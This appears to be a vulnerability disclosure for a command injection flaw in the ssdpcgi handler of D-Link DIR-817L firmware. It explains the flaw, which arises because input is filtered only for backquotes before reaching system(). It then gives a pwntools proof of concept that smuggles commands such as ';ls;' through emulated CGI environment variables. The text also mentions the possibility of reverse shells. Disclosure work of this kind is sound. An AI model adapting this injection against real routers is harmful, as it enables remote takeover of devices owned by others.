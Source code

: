 # D-Link DIR‑817L在 ssdpcgi 中存在远程任意命令执行漏洞

Affected versions: Firmware version <= Firmware v1.04B01

The program obtains environment variable parameters through `getenv`, and only filters backquote characters, without effectively restricting other special symbols that may trigger command execution. An attacker can construct a string similar to `ssdp:all+command` to inject malicious content into the parameters passed to the `lxmldbc_system` function. Because the function uses `sprintf` to splice the command string and executes it through `system`, it eventually leads to a command injection vulnerability, which allows an attacker to achieve remote code execution. This can then achieve malicious attacks such as rebound shells.

![image-20250701183716269](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701183716269.png)

![image-20250701184135375](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701184135375.png)

![image-20250701184218430](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701184218430.png)



POC

```
from pwn import*
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='mips'
context.os='linux'
context.endian = 'big'
context.log_level = 'debug'
def bug():
    gdb.attach(target=("localhost", 8888), exe="./htdocs/cgibin",
               gdbscript="""
               b *0x40E210\n    
               c\n
               """)
    pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


#cmd=input("command:")
pay=cyclic(0x100)
print(pay)
post_content = "Thir0th=AGRiot"
p = process(f'''
qemu-mips -L . \
  -0 "ssdpcgi" \
  -E HTTP_ST="ssdp:all;ls>" \
  -E REMOTE_ADDR="{pay}" \
  -E REMOTE_PORT=";ls;" \
  -E SERVER_ID="router" \
  -g 8888 \
  ./htdocs/cgibin ssdpcgi
''',shell=True)
bug()


p.send(post_content)







inter()
```

successfully executed

![image-20250719141248661](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250719141248661.png)
